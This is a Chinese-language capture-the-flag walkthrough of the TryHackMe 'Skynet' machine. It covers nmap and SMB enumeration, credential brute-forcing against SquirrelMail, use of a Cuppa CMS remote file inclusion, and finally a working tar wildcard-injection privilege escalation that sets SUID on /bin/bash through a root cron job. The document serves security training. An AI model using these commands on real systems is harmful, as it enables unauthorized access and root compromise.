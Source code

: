 # Skynet

nmap扫描

```shell
sudo nmap --min-rate 10000 -p- 10.10.216.74 -Pn

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds

sudo nmap -sT -sV -sC -O -p22,80,110,139,143,445 10.10.216.74 -Pn

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: PIPELINING AUTH-RESP-CODE UIDL SASL TOP CAPA RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: ID SASL-IR more OK have post-login LITERAL+ capabilities Pre-login IDLE LOGINDISABLEDA0001 LOGIN-REFERRALS ENABLE IMAP4rev1 listed
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

发现有开启smb服务，进行枚举

```shell
smbclient -L 10.10.216.74 -N                                    

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET
```

可以尝试匿名访问

```shell
smbclient //10.10.216.74/anonymous -N
```

然后将所有的文件下载下来

```shell
cat log1.txt

cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator

cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

可以发现一个名为miles dyson的人让大家更改密码，而上面哪个可能是一个密码表

下一步进行目录扫描

```
sudo dirsearch -u http://10.10.216.74/

301 -  312B  - /admin  ->  http://10.10.216.74/admin/                                          
301 -  313B  - /config  ->  http://10.10.216.74/config/                                          
301 -  310B  - /css  ->  http://10.10.216.74/css/                
301 -  319B  - /squirrelmail  ->  http://10.10.216.74/squirrelmail/
```

发现只有最后一个可以打开，并且还存在一个登录页面

我们猜测用户名为milesdyson，密码为上面其中之一，尝试破解

最后登录凭据为milesdyson：cyborg007haloterminator

进入到一个疑似后台管理的页面

看一下里面的内容

```tex
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

找到了milesdyson的密码，我们又可以尝试登录到smb了

```
smbclient //10.10.216.74/milesdyson -U milesdyson
```

找到一个很特别的文件important.txt

```tex
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

说是存在一个测试版的cms，那我们就去看看

可以打开

根据thm的提示，我们可以知道存在rfi

再次进行目录扫描

```
sudo dirsearch -u http://10.10.216.74/45kra24zxs28v3yd/
```

成功找到后台登陆页面10.10.216.74/45kra24zxs28v3yd/administrator/

发现该后台是有了cuppa，我们可以去查找一下该cms是否存在什么漏洞

发现此cms只有一个漏洞且刚好为rfi

尝试利用

成功getshell,接下来尝试提权

首先我们将林peas.sh下载到目标服务器上，给上执行权限后开始运行

```tex
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

发现/home/milesdyson/backups/目录下存在一个以root权限运行的脚本，看看我们能否对其进行修该以尝试提取

```
ls -liah

422020 -rwxr-xr-x 1 root       root         74 Sep 17  2019 backup.sh
```

很遗憾，我们无法对其修改和删除

查看其内容

```tex
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

这段 Bash 脚本的作用是将 `/var/www/html` 目录下的所有内容打包成一个 `.tgz` 备份文件，并将该文件保存在 `/home/milesdyson/backups/` 

注意到这里存在一个通配符注入漏洞

```tex
通配符注入（Wildcard Injection） 是一种安全漏洞，指的是攻击者将特殊通配符（如 *, ?, [...] 等）注入到命令或脚本中，使其在执行系统命令（特别是涉及 bash、tar、rm、cp 等工具）时发生意料之外的行为，进而造成信息泄露、文件覆盖、删除或代码执行等问题。
```

```
#创建一个脚本，一旦执行，会让 bash 拥有 root 权限（提权用）
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /var/www/html/root_shell.sh

#这是 tar 命令的一个特殊参数形式，它告诉 tar：每个 checkpoint 时执行 sh root_shell.sh 命令
touch "/var/www/html/--checkpoint-action=exec=sh root_shell.sh"

#这个参数启用了 tar 的 checkpoint 功能，意味着 tar 会定期执行你通过 --checkpoint-action 指定的操作。
touch "/var/www/html/--checkpoint=1"

#以 SUID 权限执行 bash，从而获得提权后的 shell。
/bin/bash -p
```

拿到了管理员权限
